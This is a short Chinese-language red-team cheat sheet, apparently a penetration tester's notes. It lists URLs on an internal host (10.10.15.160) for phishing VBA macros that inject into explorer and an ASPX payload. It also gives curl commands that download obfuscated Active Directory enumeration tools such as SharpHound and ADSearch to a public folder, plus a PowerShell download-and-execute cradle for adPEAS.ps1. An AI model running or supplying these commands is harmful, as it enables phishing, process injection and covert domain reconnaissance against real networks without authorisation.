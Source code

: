 
____

---
## 钓鱼

__vba__

直接注入explorer

http://10.10.15.160/out/other/inject.vba

wmi调用powershell 脚本默认为注入explorer的ps1

http://10.10.15.160/out/other/wmi.vba 


__aspx__

http://10.10.15.160/out/other/index.aspx




---
## 其他工具

> 域枚举

__ADCollector__

```
curl http://10.10.15.160/obf/ADCollector.exe -o C:\Users\Public\ADCollector.exe
```

__ADSearch__

```
curl http://10.10.15.160/obf/ADSearch.exe -o C:\Users\Public\ADSearch.exe
```

__SharpHound__

```
curl http://10.10.15.160/obf/SharpHound.exe -o C:\Users\Public\SharpHound.exe
```

__SharpView__

```
curl http://10.10.15.160/obf/SharpView.exe -o C:\Users\Public\SharpView.exe
```

__adPEAS.ps1__

```
iex ((new-object net.webclient).downloadstring('http://10.10.15.160/tools/ps1/adPEAS.ps1')) 

Invoke-adPEAS

Invoke-adPEAS -Domain EXAMPLE.com
```
